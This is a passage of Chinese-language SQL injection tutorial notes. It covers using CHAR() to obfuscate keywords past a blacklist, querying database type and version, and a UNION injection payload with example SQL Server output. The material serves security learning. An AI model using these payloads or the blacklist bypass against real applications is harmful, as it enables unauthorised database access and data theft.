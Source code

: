 
要成功地以這方式 inject payload
- 你需要對輸入的 decode/encode 的順序有充分的了解

-------------------



## 用 SQL `CHAR()` function 來 Obfuscation
嚴格來說，這不算一種 encode
- 你可以通過 `CHAR()` function 來混淆 SQL injection
- function 接受單一的十進製或十六進制 code 並返回匹配的字
  - 十六進制以 `0x` 為前綴。如，`CHAR(83)`和 `CHAR(0x53)` 都返回大寫字母 `S`

用這種方法來混淆的關鍵字。即使 `SELECT` 被列入黑名單，可以這樣做
- 當 App 將此作為 SQL 處理時，它將動態地構建 SELECT 關鍵字並執行查詢
```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```



---------------

## 在 SQL inject 攻擊中檢查 DB
在利用 SQL inject 時，通常需要收集 DB 本身的資訊。包括 DB 類型和版本，以及 DB 內容，即它包含哪些 table 和 column

---------------


## 查詢 DB 的類型和版本
不同的 DB 提供了查詢其版本的不同方法
- 通常需要嘗試不同的查詢方式來找到有效的方式

對於一些流行的 db，查詢方法如下：

| Database | type	Query |
| :--- | :--- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |


Use a `UNION attack` with the following input:

```
' UNION SELECT @@version--
```

這可能會返回類似以下的輸出
- 確認 DB 是 Microsoft SQL Server，以及版本

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```
